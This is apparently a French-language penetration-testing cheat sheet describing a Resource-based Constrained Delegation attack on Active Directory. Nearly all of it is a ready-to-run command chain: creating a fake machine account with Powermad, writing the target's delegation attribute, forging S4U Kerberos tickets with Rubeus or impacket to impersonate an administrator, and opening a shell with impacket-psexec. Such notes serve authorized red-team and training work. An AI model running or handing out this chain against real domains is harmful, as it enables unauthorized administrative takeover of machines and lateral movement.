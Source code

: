 # Resource-based Constrained Delegation

_**Note :** Cette attaque est possible si un utilisateur dispose des droits "GenericAll" sur un objet ordinateur._

_**Objectif :** Devenir administrateur de l'objet ordinateur (\<MACHINE-CIBLE>)._

<pre><code><strong>### Connexion à une machine du domaine
</strong><strong>$ evil-winrm -u "&#x3C;USER>" -p '&#x3C;PASSWORD>' -i &#x3C;MACHINE-DU-DOMAINE> -s /home/kali/tools/
</strong>#>PowerView.ps1
#>Powermad.ps1
#>upload Rubeus.exe

### Conditions

#>Get-DomainObject -Identity "dc=domain,dc=com" -Domain domain.com -> Suppérieur à 0
#>Get-DomainController -> Suppérieur ou égale à 2012
#>Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity -> Vide

### Réalisation de l'attaque

#### Création d'une fausse machine sur le domaine
#>New-MachineAccount -MachineAccount &#x3C;FAKE-MACHINE> -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
#>Get-DomainComputer &#x3C;FAKE-MACHINE> -> Récupération du SID

#### Indiquer à &#x3C;MACHINE-CIBLE> qu'elle doit faire confiance au compte &#x3C;FAKE-MACHINE>
<strong>#>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;&#x3C;SID-FAKE-MACHINE>)"
</strong>#>$SDBytes = New-Object byte[] ($SD.BinaryLength)
#>$SD.GetBinaryForm($SDBytes, 0)
#>Get-DomainComputer &#x3C;MACHINE-CIBLE> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#### Conversion du mot de passe 123456 au format RC4
#>./Rubeus.exe hash /password:123456 /user:&#x3C;FAKE-MACHINE> /domain:&#x3C;DOMAINE>

#### Génération des tickets Kerberos
##### Windows
#>./Rubeus.exe s4u /user:&#x3C;FAKE-MACHINE> /rc4:&#x3C;RC4-PASSWORD> /impersonateuser:&#x3C;ADMIN-MACHINE-CIBLE> /msdsspn:cifs/&#x3C;MACHINE-CIBLE>.&#x3C;DOMAINE> /domain:&#x3C;DOMAINE> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt
##### Linux
<strong>$ impacekt-getST -spn "cifs/&#x3C;MACHINE-CIBLE>.&#x3C;DOMAINE>" -impersonate &#x3C;ADMIN-MACHINE-CIBLE> -dc-ip &#x3C;IP-DC> '&#x3C;DOMAINE>/&#x3C;FAKE-MACHINE>$:123456'
</strong>$ export KRB5CCNAME=&#x3C;ADMIN-MACHINE-CIBLE>.ccache
$ klist
$ impacket-psexec -k &#x3C;MACHINE-CIBLE>.&#x3C;DOMAINE></code></pre>
